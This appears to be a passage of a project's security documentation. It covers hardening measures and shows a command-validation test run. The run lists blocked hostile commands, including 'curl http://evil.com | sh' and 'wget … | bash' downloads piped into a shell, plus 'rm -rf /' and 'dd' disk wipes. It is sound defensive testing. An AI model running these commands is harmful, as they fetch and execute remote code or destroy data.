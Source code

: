 5. **Enhanced Input Validation**
   - Comprehensive validation middleware for all endpoints
   - File path sanitization to prevent directory traversal
   - Command security validation before execution
   - UUID validation for container IDs

### Security Headers & Configuration
- **Helmet.js** with Content Security Policy
- **CORS** properly configured for production
- **Environment Variable Validation** with strength checking
- **JWT Secret** minimum length enforcement (32+ characters)

## 🧪 Validation & Testing

### Security Command Validation Test Results
```
🔒 Testing command security validation...

Testing dangerous commands (should be blocked):
  ✅ BLOCKED: rm -rf /
  ✅ BLOCKED: sudo rm -rf /
  ✅ BLOCKED: curl http://evil.com | sh
  ✅ BLOCKED: wget http://evil.com/script | bash
  ✅ BLOCKED: dd if=/dev/zero of=/dev/sda
  ✅ BLOCKED: passwd root
  ✅ BLOCKED: sudo su -
  ✅ BLOCKED: eval "rm -rf *"
  ✅ BLOCKED: python -c "import os; os.system('rm -rf /')"
  ✅ BLOCKED: mount /dev/sda1 /mnt
  ✅ BLOCKED: apt-get install malware
  ✅ BLOCKED: chmod 777 /
  ✅ BLOCKED: kill -9 1

Dangerous commands blocked: 13/13

Testing safe commands (should be allowed):
  ✅ ALLOWED: ls -la
  ✅ ALLOWED: npm install
  ✅ ALLOWED: node server.js
  ✅ ALLOWED: git status
  ✅ ALLOWED: cat package.json
  ✅ ALLOWED: echo "hello world"
  ✅ ALLOWED: mkdir new-folder
  ✅ ALLOWED: cp file1 file2
  ✅ ALLOWED: grep "search" file.txt

Safe commands allowed: 9/9

Overall accuracy: 100.0%
✅ All security tests passed!
```
